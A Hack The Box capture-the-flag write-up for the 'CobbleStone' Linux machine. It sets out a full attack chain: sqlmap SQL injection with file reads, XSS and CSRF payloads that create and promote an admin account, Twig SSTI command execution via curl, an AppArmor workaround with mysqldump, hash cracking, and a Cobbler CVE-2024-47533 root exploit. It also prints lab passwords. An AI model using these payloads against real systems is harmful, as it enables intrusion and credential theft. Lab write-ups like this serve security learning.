

# CobbleStone - HTB

### Description

**OS:** Linux

**Difficulty:** Insane

**Author:** c1sco

**Release Date:** 9th August, 2025

### Nmap Scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 50:ef:5f:db:82:03:36:51:27:6c:6b:a6:fc:3f:5a:9f (ECDSA)
|_  256 e2:1d:f3:e9:6a:ce:fb:e0:13:9b:07:91:28:38:ec:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.62
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://cobblestone.htb/
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 19.710 days (since Wed Jul 22 01:02:33 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Reconnaissance

The landing page was a Minecraft skin database site. poking around revealed two additional vhosts, `vote.cobblestone.htb` and `deploy.cobblestone.htb` via the page source/links. the voting feature was marked as beta which is always worth investigating since beta usually means less testing.

<figure><figcaption></figcaption></figure>

The Vote feature in beta indicated that it might be vulnerable.

<figure><figcaption></figcaption></figure>

We can register an account and use the voting feature. After registering and logging in the voting table showed existing entries but the upvote functionality wasn't implemented. the suggestion tab though accepted free text input which is an immediate red flag for injection.

<figure><figcaption></figcaption></figure>

Furthermore the suggestion tab allows to suggest other urls that needs approval before adding into the main voting table.

<figure><figcaption></figcaption></figure>

### SQli

With the input field totally under control I tried to perform some sql injection with malicious input in the field to observe server's response. For automating the stuff I used `sqlmap`. As a valid session was required to use the voting feature I started burpsuite and captured the POST request for suggestion and saved it locally.

<figure><figcaption></figcaption></figure>

After saving the request in a file I used it with sqlmap and started by limiting to only UNION based techniques as it is much easier and faster than other techniques if possible.

Sqlmap identified that the target is indeed vulnerable to UNION based sql injection and fetched the Database names using that technique

```
sqlmap -r req.txt --level 5 --risk 3 --batch --technique=U --dbs --threads 10
<SNIP>
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: url (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-1283' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b626b71,0x5667786a4355456743515157416b4e506f485376446a466e6a53687a4c4a5641666b6b7250497857,0x716b627171)-- -
---
[18:24:41] [INFO] testing MySQL
[18:24:41] [INFO] confirming MySQL
[18:24:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:24:43] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] vote

[18:24:43] [INFO] fetching tables for databases: 'information_schema, vote'
```

Two databases were identified, one was the default `information_schema` and other was the `vote` database that is integrated with the voting feature of the website. But dumping the database tables returned an internal server error. I then tried to enumerate the privileges of current user in database

### File Read via SQLi

```
sqlmap -r req.txt --dbms mysql --level 5 --risk 3 --batch --technique=U -D vote -T votes --privileges --threads 10
<SNIP>
[18:39:02] [INFO] testing MySQL
[18:39:02] [INFO] confirming MySQL
[18:39:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:39:04] [INFO] fetching database users privileges
[18:39:05] [WARNING] reflective value(s) found and filtering out
database management system users privileges:
[*] 'voteuser'@'localhost' [1]:
    privilege: FILE

[18:39:05] [INFO] fetched data logged to text files under '/home/h4ck3r/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 18:39:05 /2026-08-10/
```

It was identified that `voteuser` indeed has file reading privileges which can be used to read system files and even source code of the main website. I tried to read the `passwd` file to confirm the privileges and was able to successfully exfiltrate the file

```
sqlmap -r req.txt --dbms mysql --level 5 --risk 3 --batch --technique=U --file-read '/etc/passwd'
<SNIP>
[18:43:02] [INFO] testing MySQL
[18:43:02] [INFO] confirming MySQL
[18:43:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:43:05] [INFO] fingerprinting the back-end DBMS operating system
[18:43:05] [INFO] the back-end DBMS operating system is Linux
[18:43:05] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[18:43:06] [WARNING] reflective value(s) found and filtering out
[18:43:06] [INFO] the local file '/home/h4ck3r/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (1430 B)
files saved to [1]:
[*] /home/h4ck3r/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_passwd (same file)

[18:43:06] [INFO] fetched data logged to text files under '/home/h4ck3r/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 18:43:06 /2026-08-10/
```

```
cat /home/h4ck3r/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
cobble:x:1000:1000:cobble,,,:/home/cobble:/bin/rbash
mysql:x:103:112:MySQL Server,,,:/nonexistent:/bin/false
tftp:x:104:113:tftp daemon,,,:/srv/tftp:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
john:x:1001:1001:,,,:/home/john:/bin/bash
```

I then used the same technique to read the apache configuration to find the location of the main site's source code which was at `/var/www/html`

```
<VirtualHost *:80>
	RewriteEngine On
	RewriteCond %{HTTP_HOST} !^cobblestone.htb$
	RewriteRule /.* http://cobblestone.htb/ [R]
	ServerName 127.0.0.1
	ProxyPass "/cobbler_api" "http://127.0.0.1:25151/"
	ProxyPassReverse "/cobbler_api" "http://127.0.0.1:25151/"
</VirtualHost>

<VirtualHost *:80>
	ServerName cobblestone.htb

	ServerAdmin cobble@cobblestone.htb
	DocumentRoot /var/www/html

	<Directory /var/www/html>
		AAHatName cobblestone
	</Directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	RewriteEngine On
	RewriteCond %{HTTP_HOST} !^cobblestone.htb$
	RewriteRule /.* http://cobblestone.htb/ [R]

	Alias /cobbler /srv/www/cobbler

	<Directory /srv/www/cobbler>
		Options Indexes FollowSymLinks
		AllowOverride None
		Require all granted
	</Directory>

</VirtualHost>

<VirtualHost *:80>
	ServerName deploy.cobblestone.htb

	ServerAdmin cobble@cobblestone.htb
	DocumentRoot /var/www/deploy

	RewriteEngine On
	RewriteCond %{HTTP_HOST} !^deploy.cobblestone.htb$
	RewriteRule /.* http://deploy.cobblestone.htb/ [R]
</VirtualHost>

<VirtualHost *:80>
	ServerName vote.cobblestone.htb

	ServerAdmin cobble@cobblestone.htb
	DocumentRoot /var/www/vote

	RewriteEngine On
	RewriteCond %{HTTP_HOST} !^vote.cobblestone.htb$
	RewriteRule /.* http://vote.cobblestone.htb/ [R]
</VirtualHost>
```

### Source Code Review

I begin exfiltrating the source code using the read file privileges and targeted the `skins.php` file as that the core file redirecting us to login.

The skins source code revealed some restricted options available to admins including, skin suggestion review and user management

<figure><figcaption></figcaption></figure>

Furthermore I downloaded the db connection file as well and it revealed the database and connection credentials for another database named cobblestone which is different than the voting one.

```
<?php

$dbserver = "localhost";
$username = "dbuser";
$password = "aichooDeeYanaekungei9rogi0eMuo2o";
$dbname = "cobblestone";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

### XSS

I registered on the main site and suggested a skin by providing the my TUN IP to see if admin checks the suggested site or not.

<figure><figcaption></figcaption></figure>

After submitting the suggestion I started up a python http server and waited for few seconds and indeed the admin visited the link resulting in logs on the http server

<figure><figcaption></figcaption></figure>

As the cookies on the site are set to HTTP only they can't be stolen by JS payloads. So instead I tried to grab the admin's POV of dashboard by using a DOM based XSS payload that copies the admin dashboard from DOM and sends it back to my http server in base64 encoded format.

```
">
```

Once admin visited the suggestions I got a base64 encoded request back at my http server which I decoded and saved in an html file

<figure><figcaption></figcaption></figure>

After opening the HTML file in browser I could see a rough sketch of admin POV

<figure><figcaption></figcaption></figure>

Looking at the source code revealed another endpoint where the processing for user management happens when an admin updates the user.

<figure><figcaption></figcaption></figure>

I used the SQLi to download this file as well. Upon further inspection of the code I found that the user id 1 and 2 are not modifiable and If the admin's IP does not matches the user's registered IP it will also be denied.

<figure><figcaption></figcaption></figure>

### CSRF

Similar pattern was found in skins.php where the users only registered from admin's IP are displayed to admin and same logic goes in user modification. What we can do here is to host a html page to perform a CSRF attack when admin's visit the link and then elevate the user to admin using similar CSRF attack. So I crafted a html payload to do first register a user from Admin's IP.

```
<html>
<body>
<script>
fetch('http://cobblestone.htb/register.php',{
  method:'POST',
  credentials:'include',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'username=ghostpwn&password=ghost123&email=ghost@pwn.com&first=ghost&last=pwn'
});
</script>
</body>
</html>
```

I submitted another skin suggestion pointing to the user registration payload

<figure><figcaption></figcaption></figure>

After waiting we can see the register request on the server.

<figure><figcaption></figcaption></figure>

&#x20;Then I tried to login using the given credentials and was able to successfully login to the site.

<figure><figcaption></figcaption></figure>

Now we need to get the admin's POV again to confirm that the newly created user is being displayed on the dashboard and grab the user ID for the elevation CSRF attack. I used the same XSS payload as before to grab the POV

<figure><figcaption></figcaption></figure>

This time we can see the newly created user being displayed in the user management panel which means we have successfully met the IP requirements to get past the user display check. Now we can use another payload to elevate the user to admin Role with the id. This time we can use this payload and submit another suggestion request to perform CSRF.

```
<html>
<body>
<form id="f" action="http://cobblestone.htb/user.php" method="POST">
  <input name="id" value="4">
  <input name="name" value="ghostpwn">
  <input name="first" value="ghost">
  <input name="last" value="pwn">
  <input name="email" value="ghost@pwn.com">
  <input name="role" value="admin">
</form>
<script>document.getElementById('f').submit();</script>
</body>
</html>
```

After submitting the suggestion we wait for the admin to visit and then log out and then log back into the account to get admin access.

<figure><figcaption></figcaption></figure>

### SSTI

After successfully gaining admin privileges we can review the source code in detail. The preview feature in from of users makes a POST request with the user's first name and displays the user info to admin. We can download the banner preview source code using the prior SQLi again and review it.

```
<?php
session_start();

if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    http_response_code(403); // Optional: send 403 Forbidden
    die('Access denied.');
}

include('vendor/autoload.php');

// Setup Twig
$loader = new \Twig\Loader\FilesystemLoader('templates');
$twig = new \Twig\Environment($loader);

// Get POST data
$first = $_POST['first'] ?? null;

// Render header
echo $twig->render('header.html.twig', ['first' => $twig->createTemplate($first)->render()]);

?>
```

The source code reveals that the banner preview takes the first name and directly uses it in twig template without any sensitization making it vulnerable to SSTI. To confirm this vulnerability I copied the PHPSESSID from the cookies and use it to make a POST request by curl using a basic SSTI payload

```
curl -s -b 'PHPSESSID=bacmalfaljv6nbinidoi1urb93' -X POST 'http://cobblestone.htb/preview_banner.php' -d 'first={{7*7}}'
```

<figure><figcaption></figcaption></figure>

This request returned 49 which tells that preview\_banner.php is vulnerable to SSTI. This vulnerability can be leveraged to perform further RCE on the system.

```
curl -s -b 'PHPSESSID=bacmalfaljv6nbinidoi1urb93' -X POST 'http://cobblestone.htb/preview_banner.php' -d 'first={{["id"]|filter("system")}}'
```

This payload returned that the current user is www-data

<figure><figcaption></figcaption></figure>

### App Armor Bypass

Though any try to get a reverse shell failed due to App Armor being used to restrict the use of certain binaries. I leveraged the SSTI RCE to locate the exact enforced configuration

<figure><figcaption></figcaption></figure>

And found one under `/etc/apparmor.d/apache2.d/cobblestone`. I listed the content of the configuration to see what was allowed. After reviewing the configuration most of the reverse shell binaries were denied in the profile but some useful binaries were still allowed access including `mysqldump`

<figure><figcaption></figcaption></figure>

So I decided to use the `mysqldump` binary to access the cobblestone database using the RCE and dump its data. We can use the credentials obtained earlier from `connection.php` file.

```
curl -s -b 'PHPSESSID=bacmalfaljv6nbinidoi1urb93' -X POST 'http://cobblestone.htb/preview_banner.php' -d "first={{[mysqldump -u dbuser -p\"aichooDeeYanaekungei9rogi0eMuo2o\" cobblestone > /tmp/cobbledump.sql']|filter('system')}}"
```

After dumping the database in a file I then used cat to see the dump which revealed the user hashes from the database

```
curl -s -b 'PHPSESSID=bacmalfaljv6nbinidoi1urb93' -X POST 'http://cobblestone.htb/preview_banner.php' -d "first={{['cat /tmp/cobbledump.sql']|filter('system')}}"
```

<figure><figcaption></figcaption></figure>

As from the register source code we know that the hashing algorithm is SHA 256 so I used hashcat to try to crack the hashes and was able to successfully recover the clear text credentials for cobble user.

```
hashcat hash.cobble /usr/share/wordlists/rockyou.txt -m 1400 --show
20cdc5073e9e7a7631e9d35b5e1282a4fe6a8049e8a84c82987473321b0a8f4d:iluvdannymorethanyouknow
```

### SSH Access

After getting access to the credentials I used the password to login as cobble via ssh as we know that a cobble user exists from the `passwd` file earlier.

<figure><figcaption></figcaption></figure>

After logging in as cobble we can further enumerate to find any other service running internally. It was found that a service is running internally on port 25151

<figure><figcaption></figcaption></figure>

since cobble had rbash that restricted use of common utilities so I used ssh local port forwarding to access the internal cobbler port from my attack box.

```
ssh -L 25151:127.0.0.1:25151 cobble@cobblestone.htb
```

After some basic google search I found that this is Cobbler XML-RPC API service usually runs on port 25151. So I used a XML-RPC payload to query the service version.

```
curl -X POST http://127.0.0.1:25151/ \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0"?>
<methodCall>
  <methodName>version</methodName>
  <params></params>
</methodCall>'
```

The cobbler version method returned 3.306 which is representing 3.3.6 as a float over XML-RPC.

<figure><figcaption></figcaption></figure>

### CVE-2024-47533

It was found that this particular version of cobbler is vulnerable to CVE-2024-47533 which is an auth bypass in Cobbler's XML-RPC interface affecting versions 3.0.0 through 3.3.6. the root cause is that `utils.get_shared_secret()` always returns -1 instead of the actual secret due to a broken file read. this means anyone can authenticate to the XML-RPC interface using an empty username and -1 as the password without any valid credentials. once authenticated you get full admin API access which chains into RCE via the `background_import()` method. patched in 3.3.7.

I used a basic python [PoC](https://github.com/dollarboysushil/CVE-2024-47533-Cobbler-XMLRPC-Authentication-Bypass-RCE-Exploit-POC) to exploit and get a reverse shell using this vulnerability and get root access.

<figure><figcaption></figcaption></figure>
